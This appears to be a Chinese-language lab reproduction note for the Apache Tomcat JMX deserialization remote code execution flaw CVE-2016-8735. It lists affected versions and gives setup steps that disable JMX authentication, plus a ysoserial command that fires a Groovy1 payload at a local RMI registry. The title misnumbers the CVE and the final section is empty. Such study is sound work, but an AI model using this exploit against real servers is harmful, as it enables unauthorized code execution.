

## Apache Tomcat多版本远程代码执行漏洞 cve-2106-8735

#### 1.漏洞信息

| 项目         | 描述                                                         |
| ------------ | ------------------------------------------------------------ |
| 漏洞名称     | Apache Tomcat Remote Code Execution                          |
| CVE编号      | CVE-2016-8735                                                |
| 漏洞描述     | Oracle修复了JmxRemoteLifecycleListener反序列化漏洞(CVE-2016-3427)。 Tomcat也使用了JmxRemoteLifecycleListener这个监听器,但是Tomcat并没有及时升级，所以存在这个远程代码执行漏洞。 |
| 影响范围     | Apache Tomcat 9.0.0.M1 to 9.0.0.M11 Apache Tomcat 8.5.0 to 8.5.6 Apache Tomcat 8.0.0.RC1 to 8.0.38 Apache Tomcat 7.0.0 to 7.0.72 Apache Tomcat 6.0.0 to 6.0.47 |
| 不受影响版本 | Upgrade to Apache Tomcat 9.0.0.M13 or later (Apache Tomcat 9.0.0.M12 has the fix but was not released) Upgrade to Apache Tomcat 8.5.8 or later (Apache Tomcat 8.5.7 has the fix but was not released) Upgrade to Apache Tomcat 8.0.39 or later Upgrade to Apache Tomcat 7.0.73 or later Upgrade to Apache Tomcat 6.0.48 or later |

#### 2.漏洞复现

###### 2.1环境搭建

tomcat：8.3.6

Java：1.7.0_080

###### 2.2复现过程

	2.2.1修改tomcat /conf/server.xml
```
<Listener className="org.apache.catalina.mbeans.JmxRemoteLifecycleListener" rmiServerPortPlatform="10002" rmiRegistryPortPlatform="10001"/>
```

	2.2.2添加catalina-jmx-remote.jar和groovy-all-2.3.9.jar到tomcat的lib目录下

	2.2.3修改bin/catalina.bat,在Execute The Requested Command处上面添加

```
set CATALINA_OPTS=-Dcom.sun.management.jmxremote.ssl=false -Dcom.sun.management.jmxremote.authenticate=false
```

	2.2.4启动tomcat，确保tomcat启动时java的版本为1.7，实测1.8的java会报错，触发漏洞失败

	2.2.5使用ysoserial生成payload

```
java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit localhost 10001 Groovy1 calc.exe
```

###### 2.3.问题现象

